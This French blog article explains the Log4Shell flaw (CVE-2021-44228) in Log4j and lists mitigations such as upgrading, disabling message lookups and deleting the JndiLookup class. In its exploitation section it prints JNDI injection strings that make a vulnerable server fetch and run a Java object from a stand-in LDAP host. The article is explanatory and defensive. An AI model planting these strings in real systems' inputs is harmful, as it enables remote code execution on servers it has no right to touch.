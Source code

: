 lang: fr
Author: Eban
Date: 2021/12/11
Title: Log4j, une vulnérabilité d'une ampleur inédite
Summary: Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell (CVE-2021-44228) a ébranlé le petit monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.
Slug: log4j
Keywords: sécurité
Category: Cybersécurité/Red Team

Le 9 décembre 2021, la publication d'une vulnérabilité 0 day baptisée Log4Shell ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) a ébranlé le monde de la sécurité informatique, nous tacherons de comprendre son fonctionnement et comment s'en prémunir dans cet article.

[Log4j2](https://github.com/apache/logging-log4j2) est une bibliothèque Java permettant de générer... des logs, c'est comme le Port-Salut, c'est écrit dessus 😉. Cette bibliothèque est extrêmement utilisé par de nombreuses entreprises, comme, pour ne citer qu'elles, Apple, Steam, Twitter, Amazon, Tesla ou encore Microsoft. Le problème est qu'une vulnérabilité a été découverte sur ce logiciel. Cette vulnérabilité était passée jusqu'alors inaperçue, le 9 décembre un utilisateur de Github, `wcc526`, interroge l'auteur d'une pull request corrigeant cette faille à propos de celle ci. S'ensuit la publication d'une CVE et d'un Proof Of Concept.

![Message de wcc526 "Is it a security vulnerability"](/static/img/log4j/github.webp)

## 💥 Exploitation

L'exploitation de cette vulnérabilité est triviale, une simple suite de caractères comme `${jndi:ldap://example.com/a}` permet d'obtenir une RCE (Remote Code Execution) sur le serveur distant.

JNDI est l'acronyme de "Java Naming and Directory Interface", c'est une fonction de Java qui permet d'interroger des directories afin d'obtenir en retour un objet java. Un directory, c'est une sorte de base de donnée principalement utilisée en entreprise qui stocke des informations comme par exemple les utilisateurs, leurs droits, etc. On peut citer ActiveDirectory ou encore [LDAP](https://fr.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) comme exemple de directory bien connu. Java, à travers JNDI, supporte le directory bien connu LDAP. La syntaxe `jndi:ldap://example.com/a` interroge le serveur LDAP sur le serveur example.com et va télécharger l'objet a.

La syntaxe `${}`indique à Log4j qu'il faut évaluer ce qui est indiqué entre accolades. Par exemple, `${java:version}` renverra la version de java. Ici, `${jndi:ldap://example.com/a}` indique à Log4j d'évaluer (exécuter) l'objet présent à l'URI `ldap://example.com/a`.

Au vu de ces éléments, il est trivial d'obtenir une RCE sur le serveur distant. Il suffit de monter un serveur LDAP malicieux contenant un objet Java vérolé et de faire en sorte que `${jndi:ldap://SERVEUR/OBJET}` soit loggé.

Cette vulnérabilité est très inquiétante au vu de la facilité avec laquelle elle peut être exploitée. À la découverte de cette dernière, de nombreux bots ont scanné l'ensemble d'Internet à la recherche de serveur vulnérables. Le serveur qui héberge le site web que vous visitez en ce moment a été visité par certains d'entre eux.

![De nombreux bots essayent d'envoyer des payload malveillants](/static/img/log4j/vm01.webp)

## 🧑‍🚒 Limiter les dégâts

Il existe plusieurs méthodes afin de mitiger cette faille de sécurité.

La première, la plus évidente, mettre à jour log4j vers la version 2.17.0 et/ou Java vers la version 8u121 (sortie début 2017). ⚠️ Les versions 2.15 et 2.16 sont respectivement vulnérables à une RCE et un attaque DOS ces versions ne sont donc pas à considérer comme sécurisées.    



La seconde, mettre la variable `log4j2.formatMsgNoLookups` à `True`, ceci peut être fait en ajoutant l'argument `‐Dlog4j2.formatMsgNoLookups=True` à la commande permettant de lancer l'application Java. Ceci peut aussi être fait en ajoutant la variable d'environnement Linux `LOG4J_FORMAT_MSG_NO_LOOKUPS`.

La troisième, plus radicale, consiste à enlever purement et simplement la classe `JndiLookup` qui est la cause de cette vulnérabilité. Ceci peut être fait avec la commande `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` notamment.

Une autre solution plus amusante a été mise en place par Maayan-Sela et cr-mitmit, elle s'appelle `Logout4Shell`, c'est un logiciel en Java qui permet de patcher n'importe quel serveur vulnérable. Le code est disponible [ici](https://github.com/Cybereason/Logout4Shell).

Une autre solution, préventive cette fois, qui aurait pu limiter grandement les dégâts, est de bien cloisonner ses différents services. Ceci peut être fait au moyen de [services systemd renforcés](https://ilearned.eu/systemd-sandboxing.html), ou de technologies de conteneurisation comme Docker.
